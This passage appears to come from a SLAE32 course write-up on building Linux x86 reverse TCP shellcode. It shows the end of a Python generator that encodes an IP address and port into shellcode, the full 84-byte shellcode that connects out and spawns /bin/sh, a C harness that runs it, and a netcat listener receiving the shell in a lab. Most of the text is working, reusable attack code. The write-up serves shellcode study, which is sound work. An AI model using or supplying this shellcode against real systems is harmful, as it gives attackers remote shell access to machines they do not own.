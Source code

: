     exit()

# ip
hexip = "".join([ hex(int(y))[2:].zfill(2) for y in ip.split('.') ])
hexipsh = "".join([ "\\x" + hex(int(y))[2:].zfill(2) for y in ip.split('.') ])

# port
hexport = hex(int(port)).replace('0x','')
if len(hexport)<4:
    hexport = '0'+hexport

if '00' in hexport[:2] or '00' in hexport[2:4] or '00' in ip:
    print "[-] FAILED: ip address or port number null bytes found!"
    sys.exit(1)

print("Port: %s"% port)
print("Hex Port: %s"% hexport)
print("IP Address: %s"% ip)
print("Hex IP Address: %s"% hexip)
print("\nShellcode:")
print(SHELLCODE%(hexipsh, "\\x" + str(hexport[:2]) + "\\x" + str(hexport[2:4])))
print("\n")
{% endhighlight %}

## Testing
{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/reverse$ ./gen_reverse_tcp.py 192.168.112.128 8888
Port: 8888
Hex Port: 22b8
IP Address: 192.168.112.128
Hex IP Address: c0a87080

Shellcode:
"\x31\xc9\xf7\xe1\x99\x6a\x66\x58\x6a\x01\x5b\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x97\x6a\x66
\x58\x6a\x03\x5b\x68\xc0\xa8\x70\x80\x66\x68\x22\xb8\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89
\xe1\xcd\x80\x31\xc9\x6a\x02\x59\x57\x5b\xb0\x3f\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x31\xc9\x51
\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

kecebong@ubuntu:~/slae32/assigment/reverse$ cat test.c 
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x99\x6a\x66\x58\x6a\x01\x5b\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x97\x6a\x66
\x58\x6a\x03\x5b\x68\xc0\xa8\x70\x80\x66\x68\x22\xb8\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89
\xe1\xcd\x80\x31\xc9\x6a\x02\x59\x57\x5b\xb0\x3f\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x31\xc9\x51
\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

kecebong@ubuntu:~/slae32/assigment/reverse$ gcc -fno-stack-protector -z execstack test.c -o test

kecebong@ubuntu:~/slae32/assigment/reverse$ ./test 
Shellcode Length:  84

────────────────────────────────────────────────────────────────────────────────────────────────────────
kecebong@ubuntu:~/slae32/assigment$ nc -lvn 8888
Connection from 192.168.112.128 port 8888 [tcp/*] accepted
uptime